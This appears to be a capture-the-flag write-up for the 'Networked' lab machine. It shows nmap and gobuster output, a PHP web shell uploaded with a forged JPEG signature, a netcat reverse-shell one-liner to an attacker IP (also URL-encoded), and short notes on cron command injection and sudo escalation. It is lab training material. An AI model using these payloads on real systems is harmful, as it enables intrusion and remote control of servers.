









# Networked
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.146                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 17:13 BST
Nmap scan report for 10.10.10.146 (10.10.10.146)
Host is up (0.51s latency).
Not shown: 921 filtered tcp ports (no-response), 76 filtered tcp ports (host-unreach)
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.91 seconds

```
- `gpbuster`
```
└─$ gobuster dir -u 10.10.10.146  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.146
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/06/23 17:21:53 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 207]
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/photos.php           (Status: 200) [Size: 1302]
/upload.php           (Status: 200) [Size: 169]
/lib.php              (Status: 200) [Size: 0]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
/.html                (Status: 403) [Size: 207]
```
- Web server



- Backup


## Foothold
- Source code




- Let's try a web shell
  - `<?php system($_GET['cmd']); ?>`
  - Create a file named `shell.php.jpg` and add `jpg` signature via `hexeditor`
    - https://en.wikipedia.org/wiki/List_of_file_signatures
  - Upload to server








- Spawn reverse shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 6666 >/tmp/f`
  - Url encode: `rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20%2Di%202%3E%261%7Cnc%2010%2E10%2E16%2E7%206666%20%3E%2Ftmp%2Ff`


## User
- Enumeration


- It's a cron job, so we can try command injection since we control the `$value`
  - Let's create payload file and launch our listener


- And we got our user
## Root
- `sudo -l`



- So let's abuse that according to link below
  - https://seclists.org/fulldisclosure/2019/Apr/24


